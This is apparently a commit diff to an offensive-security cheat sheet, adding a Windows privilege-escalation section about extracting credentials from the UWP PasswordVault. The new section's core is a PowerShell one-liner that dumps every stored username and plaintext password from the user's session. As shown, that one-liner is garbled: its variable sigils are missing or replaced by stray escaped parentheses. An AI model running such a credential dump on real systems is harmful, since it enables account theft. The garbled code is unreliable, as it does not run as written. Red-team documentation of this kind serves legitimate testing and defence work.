

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/redteam/escalation/windows-privilege-escalation.md, in a window 1280 px wide and 1400 px high, scrolled down 17408 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
feat(windows lpe): add UWP PasswordVault credential locker method
Adds a new section documenting the extraction of credentials from the modern Universal Windows Platform (UWP) PasswordVault / Credential Locker.

- Documents how modern Windows builds, Edge, and apps handle "Web Credentials".
- Provides a native PowerShell one-liner to securely decrypt and display plaintext passwords without requiring administrative or debug privileges.

````diff
--- a/docs/redteam/escalation/windows-privilege-escalation.md
+++ b/docs/redteam/escalation/windows-privilege-escalation.md
@@ -20,6 +20,7 @@
     * [Sticky Notes passwords](#sticky-notes-passwords)
     * [Passwords stored in services](#passwords-stored-in-services)
     * [Passwords stored in Key Manager](#passwords-stored-in-key-manager)
+    * [Passwords stored in UWP PasswordVault / Credential Locker](#passwords-stored-in-uwp-passwordvault--credential-locker)
     * [Powershell History](#powershell-history)
     * [Powershell Transcript](#powershell-transcript)
     * [Password in Alternate Data Stream](#password-in-alternate-data-stream)
@@ -536,6 +537,16 @@
 
 ```ps1
 rundll32 keymgr,KRShowKeyMgr
+```
+
+### Passwords stored in UWP PasswordVault / Credential Locker
+
+Modern Windows UWP applications, Microsoft Edge, and modern system services store authentication tokens and plaintext passwords inside the Universal Windows Platform (UWP) `PasswordVault` (also exposed as `Web Credentials` in `vaultcmd`). This storage space is session-isolated and can be decrypted natively without administrative or `SeDebugPrivilege` rights.
+
+Execute this PowerShell command inside the user's active session to instantly dump and decrypt all stored usernames and plaintext passwords:
+
+```ps1
+[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]; v = New-Object Windows.Security.Credentials.PasswordVault; v.RetrieveAll() | ForEach-Object { try { \(_.RetrievePassword();\)_ } catch{} } | Select-Object Resource, UserName, Password | Format-List
 ```
 
 ### Powershell History
````
Also changed, not shown: other parts of docs/redteam/escalation/windows-privilege-escalation.md (+1 -1 lines).
